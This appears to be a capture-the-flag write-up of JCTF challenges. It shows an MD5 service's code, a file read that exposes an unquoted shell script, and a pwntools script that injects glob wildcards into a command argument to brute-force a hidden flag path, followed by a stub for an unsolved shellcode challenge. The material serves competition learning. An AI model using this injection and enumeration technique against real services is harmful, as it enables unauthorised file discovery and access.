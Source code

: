 ```python
        if cmd == 'MD5':
            print('Executing MD5 on %r' % arg)
            sys.stdout.flush()
            print('Result:')
            print(md5_file(arg))
        elif cmd == 'READ':
            print('Executing READ on %r' % arg)
            sys.stdout.flush()
            print('RESULT:')
            print(read_file(arg))
        else:
            print('Unrecoginzed command. Try again!')
            sys.stdout.flush()
    print('500 commands limits exceeded. Bye!')
    sys.stdout.flush()
if __name__ == '__main__':
    main()
```   
Executing READ on '/task/md5service.sh'   
RESULT:   
#!/bin/bash   
read x;   
y=`md5sum $x`;   
echo $y | cut -c1-32;    
doesnt work so use this then to find the path...    
```python 
#!/usr/bin/env python2
from pwn import *
import string
# flag_path = '0c8702194e16f006e61f45d5fa0cd511/flag_a6214417905b7d091f00ff59b51d5d78.txt'
flag_path = ''
p = remote("md5service.nc.jctf.pro", 1337)
while True:
    found = False
    # for c in string.ascii_lowercase + string.digits + 'lg_.':
    for c in "0123456789abcdef" + '_.':
        p.sendlineafter("Cmd:", 'MD5 /{}*'.format(flag_path + c))
        p.recvuntil('Result:\n')
        output = p.recvline().strip()
        print c, output
        if len(output) >= 32: # MD5 hash found:
            flag_path += c
            print flag_path
            found = True
            break
    if not found:
        break
p.interactive()
```
		
## Shellcode Executor PRO 
(Not solved)   
![image](https://user-images.githubusercontent.com/25066959/71326431-cbd4c700-24c8-11ea-99b7-bbf78277608e.png)    
```python
#!/usr/bin/env python2

from pwn import *

context(arch = 'amd64')

# p = process("./shellcodeexecutor")
p = remote("shellcode-executor.nc.jctf.pro", 1337)
```